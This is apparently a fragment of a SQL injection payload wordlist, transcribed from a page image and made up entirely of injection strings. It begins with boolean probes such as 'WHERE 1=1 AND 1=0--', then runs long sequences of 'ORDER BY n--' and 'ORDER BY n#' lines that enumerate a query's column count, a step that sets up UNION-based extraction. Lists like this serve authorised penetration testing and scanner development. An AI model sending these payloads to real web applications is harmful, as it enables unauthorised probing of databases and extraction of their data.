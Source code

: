            AS INJECTX WHERE 1=1 AND 1=0#
           AS INJECTX WHERE 1=1 AND 1=1--
           AS INJECTX WHERE 1=1 AND 1=0--
           WHERE 1=1 AND 1=1
           WHERE 1=1 AND 1=0
           WHERE 1=1 AND 1=1#
           WHERE 1=1 AND 1=0#
           WHERE 1=1 AND 1=1--
           WHERE 1=1 AND 1=0--
           ORDER BY 1-- 
           ORDER BY 2-- 
           ORDER BY 3-- 
           ORDER BY 4-- 
           ORDER BY 5-- 
           ORDER BY 6-- 
           ORDER BY 7-- 
           ORDER BY 8-- 
           ORDER BY 9-- 
           ORDER BY 10-- 
           ORDER BY 11-- 
           ORDER BY 12-- 
           ORDER BY 13-- 
           ORDER BY 14-- 
           ORDER BY 15-- 
           ORDER BY 16-- 
           ORDER BY 17-- 
           ORDER BY 18-- 
           ORDER BY 19-- 
           ORDER BY 20-- 
           ORDER BY 21-- 
           ORDER BY 22-- 
           ORDER BY 23-- 
           ORDER BY 24-- 
           ORDER BY 25-- 
           ORDER BY 26-- 
           ORDER BY 27-- 
           ORDER BY 28-- 
           ORDER BY 29-- 
           ORDER BY 30-- 
           ORDER BY 31337-- 
           ORDER BY 1# 
           ORDER BY 2# 
           ORDER BY 3# 
           ORDER BY 4# 
           ORDER BY 5# 
           ORDER BY 6# 
           ORDER BY 7# 
           ORDER BY 8# 
           ORDER BY 9# 
           ORDER BY 10# 
           ORDER BY 11# 
           ORDER BY 12# 
           ORDER BY 13# 
           ORDER BY 14# 
           ORDER BY 15# 
           ORDER BY 16# 
           ORDER BY 17# 
           ORDER BY 18# 
           ORDER BY 19# 
           ORDER BY 20# 
           ORDER BY 21# 
           ORDER BY 22# 
           ORDER BY 23# 
           ORDER BY 24# 